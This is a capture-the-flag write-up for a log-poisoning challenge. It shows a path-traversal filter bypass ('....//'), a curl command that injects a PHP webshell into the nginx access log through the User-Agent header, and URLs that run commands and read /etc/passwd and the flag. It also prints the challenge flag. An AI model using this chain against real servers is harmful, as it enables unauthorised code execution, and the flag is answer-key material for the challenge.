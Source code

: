 **Poisoned**

Log Poisoning challenge; overall strategy is to:
1. Find a Local File Inclusion (LFI)
2. Inject php code into log files
3. Utilise the LFI vulnerability to obtain code execution and obtain the flag

Navigating to the host places the user at index.php
Within the source code, a hint to '/dashboard.php' is mentioned

There are 2 files the user can select to show the contents of:
	a. Messages.php (Provides a hint of layers (directories), climbing them (traversing) and dotdotslash (this is base64 encoded) [../])
	b. Logs.php (This simply mentions the presence of a log file (located at /var/log/nginx/access.log)), serves as a hint to log poisoning

LFI:
	
	if (isset($_GET['file']))
	        $file = $_GET['file'];
	        $file = str_replace("../","", $file);
	$fullPath = '/var/www/html/page/'.$file;
and

	<?php include_once($fullPath); ?>
**1.**

The 'file' parameter undergoes simple filtering which simply strips any occurence of ../ from the parameter.
This does not occur recursively, so by doing something such as '....//'', it is filtered to '../' which can be used to traverse directories. 
	https://book.hacktricks.xyz/pentesting-web/file-inclusion
User can include other files stored locally on the system:
	
	https://poisoned.chals.pecan.tplant.com.au/dashboard.php?file=....//....//....//....//etc/passwd

With LFI being obtained and a log file being displayed, with some quick googling, we can find information on log poisoning.
	https://www.hackingarticles.in/apache-log-poisoning-through-lfi/
	
	https://poisoned.chals.pecan.tplant.com.au/dashboard.php?file=....//....//....//....//var/log/nginx/access.log

this url was the one used in testing, change as necessary.

**2.**

A common technique involves injecting php code into the log file which is usually through the form of 'User Agent'.
This can be done via Burp Suite:
	Within the HTTP Request, a user can inject php code into the log file using the 'User Agent' Header.
	![image](https://user-images.githubusercontent.com/71430086/187429629-bc57c186-36ce-4385-bea7-e2b648acf542.png)

	
	or curl (-k for insecure as it is hosted via ssl):
	
	curl -k https://poisoned.chals.pecan.tplant.com.au -A "<?php system(\$_GET['cmd']) ?>"
	
This then will place a php webshell into the access.log file

**3.**

To exploit this we can simply use the LFI to access the log file and pass the 'cmd' parameter to it which will call system() (code execution)
	
	https://poisoned.chals.pecan.tplant.com.au/dashboard.php?file=....//....//....//....//var/log/nginx/access.log&cmd=id
	output: uid=1000(plex) gid=1000(plex) groups=1000(plex)

We can then explore directories, flag sits in root directory

	https://poisoned.chals.pecan.tplant.com.au/dashboard.php?file=....//....//....//....//var/log/nginx/access.log&cmd=ls /
	https://poisoned.chals.pecan.tplant.com.au/dashboard.php?file=....//....//....//....//var/log/nginx/access.log&cmd=cat /flag*
	
Viewing page source and/or ctrl+f helps with finding the executed code.

**Flag**
	
	pecan{p0is0n_l0g_ex3cute_c0de}








